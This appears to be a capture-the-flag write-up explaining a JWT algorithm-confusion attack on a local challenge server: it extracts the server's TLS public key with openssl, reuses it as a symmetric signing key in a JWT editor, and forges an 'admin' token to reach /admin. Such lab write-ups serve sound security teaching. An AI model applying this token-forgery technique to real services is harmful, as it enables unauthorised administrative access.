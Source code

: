 # Write-Up
1. Extract Server Certificate

```bash
openssl s_client -showcerts -connect localhost:1337 </dev/null 2>/dev/null | openssl x509 -outform PEM > server.crt
```

2. Extract the public key form the certificate 

```bash 
openssl x509 -pubkey -noout -in server.crt > server_public.key
```

3. convert the public key into b64 format (make sure to remove the last empty line after `-----END PUBLIC KEY-----`)

```bash 
cat server_public.key | base64 

```

4. Go to the JWT Editor Keys tab and click New Symmetric Key.

5. In the dialog, click Generate to generate a new key in JWK format.

6. Replace the generated value for the `k` parameter with a Base64-encoded PEM key that you just copied.

7. Save the key.

8. Intercept a request to `/admin`

9. Modify the token 

```json
{"name":"admin"}
```

10. Sign it with the new key

11. Send the request and get the flag

